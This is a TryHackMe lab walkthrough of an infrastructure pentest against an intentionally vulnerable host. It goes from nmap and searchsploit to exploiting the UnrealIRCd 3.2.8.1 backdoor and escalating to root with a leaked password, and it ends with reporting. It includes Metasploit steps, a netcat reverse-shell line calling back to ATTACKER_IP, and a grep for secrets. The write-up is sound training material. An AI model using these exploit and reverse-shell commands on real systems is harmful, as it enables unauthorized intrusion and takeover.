


<div align="center">

# 🏗️ Guided Pentest: Infrastructure

**TryHackMe Walkthrough — Jr Penetration Tester Path**


[Open the room ↗](https://tryhackme.com/room/guidedpentestinfrastructure)

</div>

---

The infrastructure counterpart to [`Guided-Pentest-Web.md`](./Guided-Pentest-Web.md): a full end-to-end engagement against a Linux host — **enumeration → vulnerability research → initial access → privilege escalation → reporting**. Based on an authorized TryHackMe lab (an isolated, intentionally vulnerable target).

> [!NOTE]
> Replace `MACHINE_IP` with the deployed target and `ATTACKER_IP` with your AttackBox / VPN address (`ip addr show tun0`). Flags shown are from the static training box.

## 🗺️ The engagement at a glance



| Phase | Action | Tool |
|-------|--------|------|
| 1 · Enumeration | Port + service/version scan | `nmap` |
| 2 · Vuln research | Map a version to known exploits | `searchsploit` |
| 3 · Initial access | Exploit UnrealIRCd 3.2.8.1 backdoor | Metasploit / `nc` |
| 4 · Post-exploit | Locate and read the user flag | `find`, `cat` |
| 5 · Privilege escalation | Reuse a leaked root password | `ssh` / `su` |
| 6 · Reporting | Document findings by audience | — |

---

## Phase 0 — Connect to the Network

```bash
sudo openvpn your-vpn-file.ovpn
```

Once connected, your `tun0` interface has an IP — this is your **`ATTACKER_IP`** / **`LHOST`**, the address the target will call back to for a reverse shell.

```bash
ip addr show tun0      # note the inet address
```

---

## Phase 1 — Enumeration

> [!TIP]
> **Goal:** find every open port and — critically — the **exact product and version** behind each one. "A port is open" is useless; `UnrealIRCd 3.2.8.1` is a kill shot. The version string is what turns a blind scan into a targeted attack.

```bash
nmap -sC -sV -T4 -p- -oN nmap_result.txt MACHINE_IP
```

| Flag | Purpose |
|------|---------|
| `-sV` | **Version detection** — probes each port and matches replies against Nmap's fingerprint DB. The single most important flag of this phase. |
| `-sC` | Runs Nmap's **default NSE scripts** (`--script=default`) for extra banners/context. |
| `-p-` | Scan **all 65535** TCP ports (don't miss a service on a high port). |
| `-oN` | Save normal output to a file — you'll need it for the report. |

### Scan results

```
PORT     STATE  SERVICE  VERSION
22/tcp   open   ssh      OpenSSH 9.6p1 Ubuntu
6667/tcp open   irc      UnrealIRCd (Unreal3.2.8.1)
```

- **22/tcp — SSH (OpenSSH 9.6p1):** modern, no practical exploit. Park it — it becomes useful *later* for privesc.
- **6667/tcp — IRC (UnrealIRCd 3.2.8.1):** read the **VERSION** column, not just the service. `3.2.8.1` is infamous. Dig here.

> [!IMPORTANT]
> Read the **VERSION** column, not `SERVICE`. `irc` tells you nothing; `UnrealIRCd 3.2.8.1` tells you everything. Record product **and** exact version for every open port before you touch anything.

**Task answer — port other than 22:** `6667`

---

## Phase 2 — Vulnerability Research

> [!TIP]
> **Goal:** turn the version string into a known exploit. `searchsploit` queries a **local, offline copy of Exploit-DB** (no internet needed — handy in a locked-down network).

```bash
searchsploit unrealircd
```

```
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit) | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow      | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute               | linux/remote/13853.pl
UnrealIRCd 3.x     - Remote Denial of Service                | windows/dos/27407.pl
```

Useful `searchsploit` flags: `-m <id>` mirrors a copy locally · `-x <path>` examines it · `--nmap scan.xml` auto-searches each detected service.

> The loop is always: **version → searchsploit → candidate exploit → READ it → use it.** Search broad then narrow, and never run a PoC before reading it.

**Task answer — path for "Remote Downloader/Execute":** `linux/remote/13853.pl`

---

## Phase 3 — Initial Access: The UnrealIRCd Backdoor

> [!TIP]
> **Goal:** turn the open IRC port into a shell. We'll do it the fast way (**Metasploit**) *and* the honest way (**raw netcat**) — understanding the manual path is what separates a button-pusher from a pentester.

### 🧬 What the backdoor actually is (CVE-2010-2075)

Between **November 2009 and June 2010**, the official `Unreal3.2.8.1.tar.gz` source archive on several download mirrors was **trojaned** — an attacker slipped a backdoor into the shipped source. This is a **software supply-chain compromise**: not a subtle memory bug, but malicious code inside the "legitimate" download, undetected for ~7 months.

The logic is brutally simple — in the connection handler, any line that **starts with the bytes `AB`** has the remainder handed straight to `system()`:

```c
// paraphrased from the trojaned src/s_bsd.c
if (!memcmp(readbuf, "AB", 2))
    system(readbuf + 2);   // runs the rest of the line as a shell command
```

> [!IMPORTANT]
> **No authentication, no exploit chain, no memory corruption.** You connect to port 6667 and send a line starting with `AB`. That's the entire "exploit" — pre-auth, 100% reliable RCE as whatever user runs the daemon.



### 💥 Option A — Metasploit

The universal Metasploit rhythm, reused for every exploit: **`search` → `use` → `options` → `set` → `payload` → `exploit`.**

```text
msfconsole
msf6 > search unrealircd
msf6 > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show options
msf6 exploit(...) > set RHOSTS MACHINE_IP
msf6 exploit(...) > set RPORT 6667            # already the default
msf6 exploit(...) > set payload cmd/unix/reverse
msf6 exploit(...) > set LHOST ATTACKER_IP     # your tun0 IP
msf6 exploit(...) > set LPORT 4444
msf6 exploit(...) > exploit
```

| Option | Meaning |
|--------|---------|
| `RHOSTS` | Target IP |
| `RPORT` | Target port — `6667` by default |
| `LHOST` | **Your** tun0 IP (where the shell calls back) |
| `LPORT` | Port on your box to catch the callback (default `4444`) |

> [!NOTE]
> Because the backdoor just runs a shell command, compatible payloads are **command payloads** (`cmd/unix/...`) — `cmd/unix/reverse` here is "Unix Command Shell, Double Reverse TCP (telnet)". These give a **plain command shell**, not Meterpreter. Run `show payloads` to see the list. (Staged vs stageless doesn't apply to `cmd/unix` shells — they're all stageless.)

### 🛠️ Option B — Manual exploitation with netcat

Metasploit hides the mechanics; doing it by hand proves you understand the backdoor (and is your fallback when the framework isn't available).

```bash
# Terminal 1 — your listener (catch the reverse shell)
nc -lvnp 4444
```

```bash
# Terminal 2 — connect to the IRC port and trip the backdoor
nc MACHINE_IP 6667
```

Then send a line beginning with `AB;` — the `AB` is consumed, the rest hits `system()`:

```text
AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```

The shell lands back in Terminal 1. **That raw `system()` call is exactly what Metasploit automated** — it prepends the same `AB;` for you and catches the session.

### 🔁 Reverse shell vs bind shell

| | **Reverse** (used here) | **Bind** |
|---|---|---|
| Who listens | **You** (attacker) | The target |
| Who connects | Target calls *back* to you | You connect *in* |
| Needs | `LHOST` + `LPORT` | A port open on the target |
| Beats a firewall/NAT? | ✅ outbound is rarely blocked | ❌ inbound is usually filtered |

> [!TIP]
> **Default to a reverse shell.** Targets sit behind firewalls/NAT that drop *incoming* connections but allow *outgoing* ones.

### ⬆️ Upgrade your dumb shell to a real TTY

The shell you caught has no tab-completion, history, or `Ctrl+C` handling. Upgrade it:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'   # spawn a PTY
# press Ctrl+Z to background it, then on YOUR box:
stty raw -echo; fg                                 # hand your keys through (press Enter)
export TERM=xterm                                  # fix screen-based tools
```

> In **Meterpreter** it's different: type `shell` to drop into a system shell, `Ctrl+Z` to return to `meterpreter >`. Upgrade a plain Metasploit shell with `sessions -u <id>`.

### Confirm access

```bash
whoami      # webmaster
id          # the IRC daemon's service account — NOT root yet
```

> [!WARNING]
> Initial access runs as the **service account**, not root. This is the *start* of the chain, not the end.

---

## Phase 4 — User Flag

With a shell, hunt for flag files across the filesystem:

```bash
find / -type f -name "*.txt" 2>/dev/null
```

| Part | Meaning |
|------|---------|
| `/` | Search from the root directory (whole filesystem) |
| `-type f` | Files only, not directories |
| `-name "*.txt"` | Anything ending in `.txt` |
| `2>/dev/null` | Discard "Permission denied" noise |

Two results stand out: `/home/webmaster/flag.txt` (the user flag) and the *suspicious, non-standard* `/etc/password.txt`.

```bash
cat /home/webmaster/flag.txt
```

**Task answer — user flag:** `THM{Pwned-Y0ur-First-Machine}`

---

## Phase 5 — Privilege Escalation

> [!TIP]
> **Goal:** go from the `webmaster` service account to **root**. On Linux this is disciplined enumeration — the box usually already contains the misconfig that hands you root.

### The quick win here

That odd file from the `find` sweep is the whole game:

```bash
cat /etc/password.txt
```
```
root:PDLrCVl1pLD91U0JMmCz
```

A **plaintext root password** in a world-readable file. Two ways to use it:

```bash
# Option A — SSH in as root from your attacker box (new terminal)
ssh root@MACHINE_IP            # password: PDLrCVl1pLD91U0JMmCz

# Option B — escalate in place from the webmaster shell (config-independent)
su root                        # same password
```

> [!WARNING]
> **Option A depends on the SSH config.** `ssh root@…` with a password only works if `/etc/ssh/sshd_config` has `PermitRootLogin yes`. Modern Ubuntu/OpenSSH defaults to `prohibit-password` (key-only for root), which would **refuse** the password login. This room is set to `yes`, so it works — but if SSH ever rejects root, fall back to **`su root`** from your existing shell, which doesn't care about the SSH policy.

```bash
whoami      # root
# The prompt flips from $ (user) to # (root) — your visual proof of escalation.
cat /root/flag.txt
```

**Task answer — root flag:** `THM{Escalat1on-D0ne}`

### 🧰 General Linux privesc checklist (for next time)

Run these in order — each is cheap and any one can end a box:

```bash
sudo -l                                  # what can I run as root? (cross-ref GTFOBins)
find / -perm -4000 -type f 2>/dev/null   # SUID binaries (run as owner, often root)
cat /etc/crontab; ls -la /etc/cron.*     # root cron jobs calling writable scripts?
ls -la /etc/shadow ~/.ssh /root/.ssh     # readable files you shouldn't be able to read
grep -rniE 'password|secret|api[_-]?key|token' /var/www /opt /home /etc 2>/dev/null
```

> `$` prompt = regular user · `#` prompt = root (UID 0). A prompt flipping to `#` confirms escalation — verify with `id` and screenshot it as evidence.

---

## Phase 6 — Reporting

A pentest is only as good as its report, and it's written in **layers for different audiences**:

| Section | Audience | Contains |
|---------|----------|----------|
| Cover Page | Everyone | Client, scope, dates, confidentiality |
| **Executive Summary** | Non-technical leadership | Business risk, posture, findings-by-severity — zero jargon |
| **Technical Summary** | **Engineering managers** | Technical overview of what was found and the impact |
| Vulnerability Table | All stakeholders | Each finding + severity at a glance |
| Detailed Findings | Engineers who fix it | Evidence, CVSS, numbered reproduction steps, remediation |

**Task answer — section aimed at engineering managers:** `Technical Summary`

### Example finding from this engagement

> **Title:** Root Password Stored in Plaintext — **Severity: Critical**
>
> **Description:** The root password was stored in plaintext in the world-readable `/etc/password.txt`. Any user with a shell could read it and fully compromise the host. (`/etc/password.txt` is not a real system file — the legitimate ones are `/etc/passwd`, which holds no passwords, and `/etc/shadow`, which is root-only and hashed.)
>
> **Steps:** 1) Gain a shell via the UnrealIRCd backdoor → 2) `cat /etc/password.txt` → 3) `ssh root@MACHINE_IP` (or `su root`).
>
> **Why critical:** no cracking needed (instant use), enables credential reuse / lateral movement, and breaches every standard (PCI-DSS, ISO 27001, SOC 2).
>
> **Recommendation:** delete the file, rotate the root password immediately, store secrets in a vault, and enforce least-privilege file permissions.

---

## 🔗 The Attack Chain

Each weakness builds on the last — exactly how real engagements work:

1. **Enumeration** exposed an outdated service with its exact version: `UnrealIRCd 3.2.8.1`.
2. **Vuln research** mapped that version to a known backdoor (CVE-2010-2075).
3. **Initial access** exploited the backdoor for a pre-auth shell as the `webmaster` service account.
4. **Post-exploitation** found the user flag *and* a suspicious credentials file.
5. **Privilege escalation** reused the leaked plaintext root password to become `root`.
6. **Reporting** documented the chain, severity, and fixes for each audience.

No single step was "full compromise" alone — it was the **chain** that rooted the box.

---

## 📋 Command Reference

| Command | Purpose |
|---------|---------|
| `sudo openvpn file.ovpn` | Connect to the THM network (gives you `tun0`) |
| `nmap -sC -sV -p- -oN out.txt IP` | Full port + version scan, saved to a file |
| `searchsploit <product> <version>` | Find known exploits (offline Exploit-DB) |
| `search` / `use` / `show options` / `set` / `exploit` | The Metasploit module rhythm |
| `set payload cmd/unix/reverse` | Reverse command-shell payload for the backdoor |
| `nc -lvnp 4444` | Start a reverse-shell listener |
| `nc IP 6667` then `AB; <cmd>` | Manual backdoor trigger |
| `python3 -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade a dumb shell to a PTY |
| `find / -type f -name "*.txt" 2>/dev/null` | Hunt for flags/files |
| `sudo -l` / `find / -perm -4000` | Core privesc enumeration |
| `ssh root@IP` / `su root` | Use recovered root creds |

## 🎓 Lessons Learned

- **The version string is the payload of a scan.** `-sV` is non-negotiable; `UnrealIRCd 3.2.8.1` is recognisable on sight as the backdoored (CVE-2010-2075) supply-chain build.
- **Understand the exploit, don't just run it.** The backdoor is a line starting with `AB` on port 6667 → `system()`. The netcat path and the Metasploit module do the *same thing*.
- **Reverse shell by default**; bind only when you can reach a listening port on the target.
- **Upgrade your shell to a TTY** before real work; initial access lands you as a service account — it's the start of the chain.
- **Plaintext credentials are critical.** They need no cracking and fuel credential reuse. `su root` beats `ssh root@…` when SSH blocks root logins.
- **`$` = user, `#` = root.** The report is the deliverable — write each section for its audience.
